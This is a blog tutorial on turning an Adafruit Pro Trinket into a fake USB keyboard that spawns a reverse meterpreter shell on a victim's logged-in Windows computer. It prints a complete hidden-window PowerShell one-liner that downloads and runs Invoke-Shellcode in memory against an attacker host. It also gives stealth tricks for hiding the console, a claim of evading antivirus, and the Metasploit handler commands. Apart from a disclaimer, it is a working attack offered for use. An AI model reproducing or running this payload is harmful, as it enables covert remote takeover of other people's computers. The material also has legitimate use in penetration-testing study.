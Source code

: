 ```yaml
---
layout: post
title: USB Keyboard Attack
author: William Moffitt
categories: tutorials
description: Learn how to turn the Adafruit Pro Trinket into a fake USB keyboard that will spawn a reverse meterpreter shell onto a victims computer.
tags: [exploitation, cyber-security, pro-trinket]
---
```


![alt text](https://cdn-learn.adafruit.com/guides/images/000/000/865/medium800/ProTrinketKeyboard_Example_Picture_Smaller.jpg?1448302050 "Adafruit ProTrinket")
Source: [Adafruit.com](https://www.google.com/url?sa=i&rct=j&q=&esrc=s&source=images&cd=&cad=rja&uact=8&ved=0ahUKEwjV842S7YrPAhVDMz4KHaC4DSYQjRwIBw&url=https%3A%2F%2Fwww.adafruit.com%2Fproduct%2F2010&psig=AFQjCNGeCb3p10lA_3DA50t_OYh1Ht8AKw&ust=1473804558096200){:target="_blank"}

***DISCLAIMER: I am not responsible for any illegal activities as a result of this material. This is for educational purposes only.***

If you have never heard of Adafruit, or the Trinket line, please check them out [here](https://www.adafruit.com){:target="_blank"}. They have all kinds of different development kits, and plenty of tutorials to get you started on some fun projects. The Pro Trinket is the larger version of the Trinket, with more RAM, flash, and GPIO pins (as well as some other updates). This article will explain how to setup the Pro Trinket to act as a usb keyboard when plugged into a computer. Computers inherently trust the keyboard, because they trust the user using it. What we will be doing is quickly installing a meterpreter shell (windows/meterpreter/reverse_https to be specific) on to a Windows machine.

### The Code
The code for this attack can be found at my [Github](https://github.com/willmfftt/ProTrinket_WinReverseShell){:target="_blank"}. Make sure to change the ATTACKER_IP to the IP address you will be running your meterpreter handler on, and set the ATTACKER_PORT to the port you want the shell to connect back to you with.

### Prerequisites for Attack
Unless you plan on replacing the backdoor with something completely different, the target must have PowerShell. The backdoor has only been tested on Windows 7 and Windows 10 so far, but it could possibly work on versions as low as Windows XP SP2. Also, while it should be obvious after reading this article, this can only be performed on a logged in user. However, Administrator privledges are not required :).

### What Does It Do?
So what it does is actually quite simple, especially since we are using the ProTinketKeyboard library (available [here](https://learn.adafruit.com/pro-trinket-keyboard/library){:target="_blank"}) which handles registering our device as a keyboard. All we do after that is press the Windows-R key to bring up the run box, then we type cmd to bring up the command line. After that we do a few things that aren't really needed for the attack, but make it a bit more stealthy. First we shrink the command prompt down as small as we can get it by running: ```mode con: cols=20 lines=1```. This sets the console to 20 characters wide by 1 character tall. Next we run ```COLOR FE``` which sets the background color to white, and the text color to light yellow. When all is said and done, we are left with a tiny command prompt that you can barely read text on. 

The next part is using PowerShell to download a script, load it into memory and execute it. The script that it loads is written by PowerShell Empire which offers a ton of different options. I actually found this PowerShell one-liner at [SHELLGAM3.COM](https://shellgam3.com/tag/reverse-shells/){:target="_blank"}, who has an excellent list of one-liner reverse shells. This is the command that gets run: ```powershell -nop -windowstyle hidden -NonInteractive -exec bypass -c IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellEmpire/Empire/master/data/module_source/code_execution/Invoke-Shellcode.ps1");invoke-shellcode -Payload windows/meterpreter/reverse_https -Lhost 52.37.4X.XXX -Lport 8443```. What's really neat about this script is that it includes Windows Metasploit payloads, and everything gets loaded into memory so no antivirus gets triggered. In the code i've provided, the only change that was made is the host and port have been moved into DEFINE constants and ```-f``` has been added which prevents the script from prompting the user to accept.

### What's Next?
Well first and foremost, you will need to flash the code onto the device. If you are not sure how to do this, please read the instructions found [here](https://learn.adafruit.com/introducing-pro-trinket/setting-up-arduino-ide){:target="_blank"}. Before you plug the device in, you will need to start metasploit on the attacking machine (*Note: The IP address of this machine must match the ATTACKER_IP in the source code*). Once you have metaspoit running, you will need to run these commands:
	
1. ```use exploit/multi/handler```
2. ```set payload windows/meterpreter/reverse_http```
3. ```set LHOST YOUR-IP-HERE```
4. ```set LPORT YOUR-PORT-HERE```
5. ```run -j```

And that's it! You're ready to plug in the device. When you plug the device in, once the red flashing indicator has stopped the device has started executing the code. You should see the run box quickly popup, then see the command prompt change size and color. Once the command prompt has closed, the attack is complete and you can remove the device. In a few moments you should see the meterpreter session has opened in metasploit. Congrats!

![alt text](/assets/img/meterpreter_session.jpg "Meterpreter Session")

### Conclusion
While I may have written this article around using the Adafruit Pro Trinket, I would actually suggest using the regular Trinket instead. The Pro Trinket has both MicroUSB and FTDI for programming, so the bootloader stays active for quite some time (I think around 10 seconds) while it attempts to detect where the programming will occur. However, I had a Pro Trinket laying around, so that is what this is based on. From the documentation for the ProTrinketKeyboard library, it is written with the same syntax as the TrinketKeyboard library. So all you should need to do to convert this import the new library. I have not tested whether this conversion works or not, so don't hold me to it.
